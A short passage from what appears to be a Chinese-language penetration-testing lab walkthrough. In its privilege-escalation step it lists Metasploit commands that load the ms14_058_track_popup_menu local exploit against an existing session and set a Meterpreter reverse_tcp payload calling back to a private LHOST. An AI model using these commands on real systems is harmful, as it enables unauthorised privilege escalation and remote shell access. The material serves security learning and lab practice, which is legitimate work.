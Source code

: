 ![Alt text](image-22.png)   
绿色的代表可用。保持会话，选择 `ms16_075`。   
```shell
 background
```   
## 10. 提权
```shell
 use ms14_058_track_popup_menu
 options
 set SESSION 1
 set LHOST 192.168.228.129
 set payload windows/x64/meterpreter/reverse_tcp
 exploit
```   
![Alt text](image-25.png)   